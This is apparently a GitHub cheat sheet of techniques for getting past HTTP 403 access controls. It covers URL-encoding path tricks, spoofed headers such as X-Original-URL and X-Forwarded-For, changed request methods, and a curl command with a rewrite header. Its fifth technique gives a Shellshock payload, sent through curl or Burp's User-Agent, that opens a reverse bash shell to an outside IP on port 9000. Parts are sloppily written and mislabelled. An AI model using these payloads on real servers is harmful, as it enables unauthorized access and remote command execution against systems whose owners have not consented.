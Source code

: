 ## How to bypass 403 Errors
**Technique number 1**
- Appending `{%2e} or {%2f} { **/*, /./}` after the first slash
	- https://www.domain/DB = 403  
	- https://www.domain/%2e/DB] =200  
	- https://www.domain/./DB] =200 

**Technique number 2**
- Adding headers to requests module.
	- Content-Length: 0  
	- X-rewrite-url  
	- X-Original-URL  
	- X-Custom-IP-Authorization  
	- X-Forwarded-For

**Technique number 3**
- Change the request method
	- GET → POST
	- GET → TRACE
	- GET → PUT
	- GET **→** OPTIONS 

**Technique number 4**
- Using Curl
	- curl -i -s -k -X $’GET’ -H $’Host: account.domain.com’ -H $’X-rewrite-url: admin/login’ $’https://account.domain.com/' 

**Technique number 5**
- Brute force sub directory from the 403 directory
   - Try using (wordlist/dirb/comon.txt)
   - Setup Netcat lisener
   - Inject parameters from Curl or Burp Suite
   - CURL ---> curl -A “() { :; }; /bin/bash -i > /dev/tcp/192.168.2.13/9000 0<&1 2>&1” http://192.168.2.18/cgi-bin/helloworld.cgi
   - Burp Suite ---> Change User-Agent: () { :; }; /bin/bash -i > /dev/tcp/192.168.2.13/9000 0<&1 2>&1
   - More info ---> https://hackbotone.com/shellshock-attack-on-a-remote-web-server-d9124f4a0af3